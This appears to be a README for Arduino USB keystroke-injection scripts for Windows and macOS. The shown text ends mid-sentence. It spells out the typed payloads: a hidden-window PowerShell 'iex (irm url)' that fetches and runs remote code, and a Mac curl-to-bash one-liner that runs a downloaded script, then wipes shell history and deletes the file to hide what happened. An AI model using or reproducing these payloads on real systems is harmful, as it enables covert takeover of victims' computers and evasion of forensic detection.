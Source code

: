 # Script Runner
<br>

**script_runner_win.ino:** Once plugged in, it hits win+r which opens the run menu. Then it types out `powershell -w h iex (irm "[url]")`. Here, `-w h` makes it so the process is ran in a hidden window, `irm "[url]"` sends a request to the url and gets the raw text which is then executed by `iex`

<br>

**script_runner_mac.ino:** Once plugged in, it hits cmd+space which opens spotlight. Then it types `Terminal.app` and hits enter to open up the terminal application. Then it types out `"$( curl "[url]" > $TMPDIR/16691615; bash $TMPDIR/16691615; history -c; rm ~/.bash_history;rm $TMPDIR/16691615 )" & disown;`, and then it quits the terminal by 
